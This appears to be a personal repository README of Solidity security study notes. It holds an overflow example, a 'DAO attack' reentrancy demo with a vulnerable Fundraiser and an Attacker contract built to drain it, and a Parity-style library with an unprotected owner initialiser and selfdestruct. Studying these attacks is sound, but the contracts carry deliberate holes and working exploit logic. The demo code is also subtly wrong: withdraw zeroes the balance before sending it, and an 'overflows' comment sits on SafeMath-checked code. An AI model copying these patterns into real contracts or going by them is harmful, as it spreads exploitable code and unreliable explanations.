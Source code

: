 # Saula-Atama

Software Develpment Projects\
Scales
Fantasy Football
Coin Tracker
seasons2
Pupparazzi
Royal KV

BlockChain
Multi Sig Wallet
Decentralised Exchange
Coin Tracker
Voting.
Token.



// KEEP IT SIMPLE , WHEN CODING SMART CONTRACT... I CANNOT EMPASIS HOW IMPORTANT IT IS FOR YOUR CODE TO BE SIMPLE, AND NOT COMPLEX BECAUSE OF LIBRARYS GETTING NUKED, OR PUBLIC FUCTION HAVING MUKLTIPLE ATTACKS ON IT FROM EXTERNAL FUCNTIONS.

// The basis of security checks for any solidity smart contract is CHECKS-EFFECTS-INTERACTIONS Pattern.

pragma solidity ^0.4.10;

import "./SafeMath.sol";

contract Overflow{

    mapping (address=>uint) balances;

    function contribute() payable{
        balances[msg.sender] = msg.value;
    }

    function getBalance() constant returns (uint){
        return balances[msg.sender];
    }

    function batchSend(address[] _receivers, uint _value){
        // this line overflows
        uint total = SafeMath.mul(_receivers.length, _value);
        require(balances[msg.sender]>=total);

        // subtract from sender
        balances[msg.sender] = SafeMath.sub(balances[msg.sender], total);

        for(uint i=0;i<_receivers.length;i++){
            balances[_receivers[i]] = SafeMath.add(balances[_receivers[i]], _value);
        }
    }

}






pragma solidity ^0.4.10;

library SafeMath {

  function mul(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a * b;
    assert(a == 0 || c / a == b);
    return c;
  }

  function div(uint256 a, uint256 b) internal constant returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    //assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  function sub(uint256 a, uint256 b) internal constant returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  function add(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}



REPLICATING THE DAO ATTACK
pragma solidity ^0.4.8;


contract Fundraiser{
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        if(balances[msg.sender] == 0){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

import "./Fundraiser.sol";

contract Attacker{
    
    address public fundraiserAddress;
    uint public drainTimes = 0;
    
    function Attacker(address victimAddress){
        fundraiserAddress = victimAddress;
    }
 
    function() payable{
        if(drainTimes<3){
            drainTimes++;
            Fundraiser(fundraiserAddress).withdraw();
        }
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
    function payMe() payable{
        Fundraiser(fundraiserAddress).contribute.value(msg.value)();
    }
    
    function startScam(){
        Fundraiser(fundraiserAddress).withdraw();
    }
}
// what the attcker code soes is that it kkeps calling the function of the DAO without the DAO recordeing that it has called a refund.
// Coding smart contracts , keep it simple, a good contract is simple to read and written in a simple manner, adding complexiticity like adding librarys or dependencies in libraries will present vulnerablities to your smart contract, example in injecting malicious code, calling a public function with fallbacks. which will cause major damages.


Parity Freeze attack

pragma solidity ^0.4.8;
import "./Library.sol";

contract Fundraiser{
    
    Library lib = Library(0xbbf289d846208c16edc8474705c748aff07732db);
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        //if(balances[msg.sender] == 0)
        if(lib.isNotPositive(balances[msg.sender])){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

contract Library{
    
    address owner;
    
    function isNotPositive(uint number) returns (bool){
        if(number<=0){
            return true;
        }
        return false;
    }
    

    function destroy() public onlyOwner {
        selfdestruct(owner);
    }
    
    modifier onlyOwner {
        if(msg.sender != owner){
            throw;
        }
        _;
    }
    
    function initOwner(){
        if(owner==address(0)){
            owner = msg.sender;
        }
        else{
            throw;
        }
    }
    
}

The DAO hacker was the recursive refund function hack, the parity bug was when they nuked the library rendering the fuction unuseable.


